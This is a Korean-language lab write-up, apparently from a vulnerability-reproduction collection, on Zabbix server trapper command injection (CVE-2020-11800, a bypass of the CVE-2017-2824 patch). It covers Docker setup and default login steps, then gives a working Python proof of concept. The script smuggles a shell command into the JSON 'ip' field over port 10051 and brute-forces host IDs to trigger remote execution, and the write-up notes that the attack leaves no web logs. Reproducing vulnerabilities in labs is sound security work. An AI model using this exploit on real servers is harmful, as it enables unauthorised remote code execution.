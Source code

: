 # Zabbix 서버 트랩퍼 명령 주입 취약점(CVE-2020-11800)

**Contributors**

-   [박철준(@cheoljun99)]

## 요약
Zabbix는 분산 시스템 모니터링 및 네트워크 모니터링 기능을 제공하는 WEB 인터페이스 기반의 엔터프라이즈급 오픈 소스 솔루션입니다.

CVE-2017-2824 Zabbix 버전 2.4.x의 트랩퍼 명령 기능에는 원격 코드 실행 취약점이 있습니다.특정 데이터 패킷이 명령 주입을 유발한 다음 원격으로 코드를 실행할 수 있습니다. 공격자는 취약점을 트리거하기 위해 Zabbix 프록시에서 요청을 시작할 수 있습니다.
CVE-2020-11800은 CVE-2017-2824에 대한 패치 우회입니다. 서버 측 트랩퍼 명령 기능에 코드 실행 취약점이 있으며, 복구 패치가 불완전하여 IPv6를 사용하여 임의 명령을 우회하고 주입할 수 있습니다.

참고 링크：

- https://xz.aliyun.com/t/8991

## 환경설정

다음 명령을 실행하여 웹 측, 서버 측, 1 에이전트 및 Mysql 데이터베이스를 포함한 전체 Zabbix 환경을 시작하십시오.

```
docker compose up -d
```

명령 실행 후 `docker compose ps`를 실행하여 모든 컨테이너가 성공적으로 시작되었는지 확인하고, 그렇지 않은 경우 `docker compose up -d`를 다시 실행하시오.

해당 취약점을 악용하기 위해서는 서버에서 자동 등록 기능을 활성화해야 하며, 활성화 방법은 아래에 제시합니다.

![](0.png)
로그인하려면 ID: admin, PW: zabbix 를 입력하세요.

![](1.png)
Configuration 탭에서 하위 탭인 Actions를 클릭하고 이벤트 소스를 Auto registration으로 조정한 다음 create를 하여 Add host 오퍼레이션을 만듭니다.

## CVE-2017-2824에서 취약점 패치한 후 취약점 재발(우회)

CVE-2017-2824와 CVE-2020-11800은 모두 동일한 취약점이므로 전자는 ipv4 splicing 명령을 사용하여 주입하고 후자는 ipv6 splicing 명령을 사용하여 주입하는 원리는 동일합니다.：

```python
import sys
import socket
import json
import sys
def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data
target = sys.argv[1]
#print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/success"}))
# CVE-2020-11800은 아래를 사용하십시오
print(send(target, {"request":"active checks","host":"vulhub","ip":"ffff:::;touch /tmp/success2"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)

```

다음 결과가 표시되면 명령이 성공적으로 실행된 것입니다.

![](2.png)
poc 파일을 연속하여 실행하면 해당 랜덤한 확률로 해당 빨간 네모칸 과정이 실행됩니다.

![](3.png)
이후 서버 bash를 통해 tmp 폴더를 확인하면 success2 파일이 생성됨을 알 수 있습니다.

![](4.png)
성공적으로 실행된 명령은 콘솔에도 기록됩니다.

![](5.png)
해당 취약점은 소켓을 통해 생성되며 http 프로토콜을 사용하지 않으므로 웹 로그에 기록이 남지 않습니다.
